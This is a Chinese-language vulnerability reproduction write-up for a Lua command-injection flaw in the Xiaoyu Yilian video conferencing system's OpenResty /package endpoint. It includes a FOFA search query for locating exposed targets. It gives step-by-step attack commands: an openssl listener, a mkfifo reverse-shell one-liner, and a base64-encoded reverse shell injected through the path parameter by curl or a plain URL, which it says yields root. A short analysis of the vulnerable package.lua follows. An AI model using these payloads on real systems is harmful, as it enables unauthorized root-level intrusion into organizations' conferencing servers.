


# 小鱼易连视频系统-Nginx LUA脚本远程命令执行

## 漏洞描述

小鱼易连视频会议系统LUA脚本权限分配不当,导致任意用户可利用root权限执行命令

## 漏洞影响

> 小鱼易连混合云

## FOFA

> title="云视讯管理平台"

## 漏洞复现

登录页面如下：


找到页面了之后寻找该该系统的OpenReaty页面，一般都在其他端口上。



然后本地进行openssl监听：

1、生成证书：

```
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
```

2、进行监听：

```
openssl s_server -quiet -key key.pem -cert cert.pem -port 443
```

3、构造反弹shell命令

```
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect <IP>:<PORT> > /tmp/s; rm /tmp/s
```

```
命令解释：1.mkfifo是创建一个命名管道，创建好了以后/tmp/s内容是空的2.然后不断执行那个bash反弹的命令，连接的地址从步骤1的文件里取3.找那个443连接往步骤1里的文件写入内容，估计是ip和端口4.最后shell弹好了就删除步骤1的文件
```

4、构造“package?path=”路径下命令执行语句，将上面反弹shell命令进行base64加密。

 

开始攻击：

1、请求目机机器上执行命令有三种方法：

```
curl：curl "http://ip/package?path=`echo bWtmaWZvIC90bXAvczsvYmluL2Jhc2ggLWkgPCAvdG1wL3MgMj4mMXxvcGVuc3NsIHNfY2xpZW50IC1xdWlldCAtY29ubmVjdCAxMC42Mi45Ni4yMzY6ODg4ID4gL3RtcC9zO3JtIC1mIC90bXAvcw== | base64 -d | sh`"
```

2、直接web上面请求：

```
http://ip/package?path=echo bWtmaWZvIC90bXAvczsvYmluL2Jhc2ggLWkgPCAvdG1wL3MgMj4mMXxvcGVuc3NsIHNfY2xpZW50IC1xdWlldCAtY29ubmVjdCAxMC42Mi45Ni4yMzY6ODg4ID4gL3RtcC9zO3JtIC1mIC90bXAvcw== | base64 -d | sh
```

3、burp抓包拦截请求，同web一样。


bp抓上面的请求会返回302，然后跳转404,不要慌，这时候去看你的监听服务器

监听服务器返回shell，直接root权限



接下来详细分析：

找机器来验证，环境为docker，上机查看：

```
netstat -anvp | grep :80
```

返回结果如下：

```
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      16554/nginx: mas
```

运行在 80 端口的程序为 nginx，在宿主机中寻找 nginx 程序

```
 find / -name nginx
```

发现宿主机中没有运行 nginx

于是尝试进入 k8s 中的容器寻找响应服务

```
 docker ps | grep openresty
```

结果如下：

```
b61e91356e49    "/usr/local/openresty" 
```

最终在 k8s 中的 openresty 容器中发现了 nginx 程序/usr/local/openresty/nginx，查询 nginx 配置文件，发现配置文件当中引用了一行 lua 脚本：

```
location = /package {
                proxy_set_header Host $host:$server_port;
                proxy_set_header X-Real-IP $remote_addr;
                proxy_set_header X-Nginx-IP $server_addr;
                limit_req zone=normalfrequ burst=20 nodelay;
                content_by_lua_file lua/package.lua;
          }
```

查询该文件并查看文件内容 cat /usr/local/openresty/nginx/lua/package.lua

```linux
local package_absolute_path = '/var/log/logs.tar.gz'
local path = ngx.req.get_uri_args().path
if nil == path then
    path = '/logs'
end

os.execute('rm -rf ' .. package_absolute_path)
os.execute('tar -zcvPf ' .. package_absolute_path .. ' ' .. path)
ngx.redirect('/log/logs.tar.gz?' .. os.time())
print('rm -rf ' .. package_absolute_path)
os.execute('rm -rf ' .. package_absolute_path)
return
```

仔细研究发现在配置文件中直接对path参数传入的字符串与rm -rf等命令进行拼接，没有进行文件白名单等过滤，攻击者可以通过构造特殊字符串对命令进行闭合，从而造成Linux命令注入。

谨记网络安全法，切勿用于非法用途